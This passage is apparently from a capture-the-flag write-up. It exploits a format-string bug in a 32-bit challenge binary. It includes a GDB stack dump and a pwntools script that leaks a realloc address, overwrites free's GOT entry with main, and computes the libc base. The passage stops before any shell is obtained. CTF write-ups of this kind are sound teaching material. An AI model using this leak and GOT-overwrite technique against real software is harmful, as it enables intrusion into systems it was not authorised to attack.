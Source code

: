 ```
0xffffd654│+0x0060: 0x00000010
0xffffd658│+0x0064: 0xf7faa7a0  →  0x00000000
0xffffd65c│+0x0068: 0x0804b158  →  0x00000000
0xffffd660│+0x006c: 0xffffd698  →  0x00000000
0xffffd664│+0x0070: 0xf7feae20  →  <_dl_runtime_resolve+16> pop edx
0xffffd668│+0x0074: 0xf7e4d369  →  <realloc+9> add ebx, 0x15cc97
0xffffd66c│+0x0078: 0x0804a000  →  0x08049f08  →  0x00000001
0xffffd670│+0x007c: 0xf7faa000  →  0x001d7d6c
```

The string `blah` at `0xffffd5f8│+0x0004` is the input and is at offset 1 (determined from above).  Down stack there are a number of `realloc` location leaks.  Given the unbounded `strcpy`; something to be aware of (attack is ~60 bytes (measured)).

`ralloac+9` at offset `29` (just count down from `blah`), looks like a good target, so I went with that.  

> BTW, `realloc+215` worked for me locally, but not remotely--differences in libc versions used.  The larger the offset to the libc call (`215` in this case) the greater the probably of difference between libc versions.  The `realloc` just below `blah` is perfect, but that will be overwritten with the format-string exploit.  Because of this I added a 2nd exploit to show how to leak from the GOT as an alternative.

This is all we need.


### Exploit 1: stack leak

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./hello')
context.update(arch='i386',os='linux')

#p = process(binary.path)
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('chall.csivit.com', 30046)
libc = ELF('libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so')

offset = 1
libcoffset = 29
```

Initial setup, and defining the offsets.  (libc will be covered below.)

```python
payload  = b'%' + str(libcoffset).encode().rjust(2,b'0') + b'$010p'
payload += fmtstr_payload(offset+len(payload)//4,{binary.got.free:binary.sym.main},numbwritten=10)
p.sendlineafter('name?\n', payload)
p.recvuntil('Hello, ')
realloc_9 = int(p.recv(10),16)
log.info('realloc ' + hex(realloc_9 - 9))
baselibc = realloc_9 - libc.sym.realloc - 9 
log.info('baselibc ' + hex(baselibc))
libc.address = baselibc
```
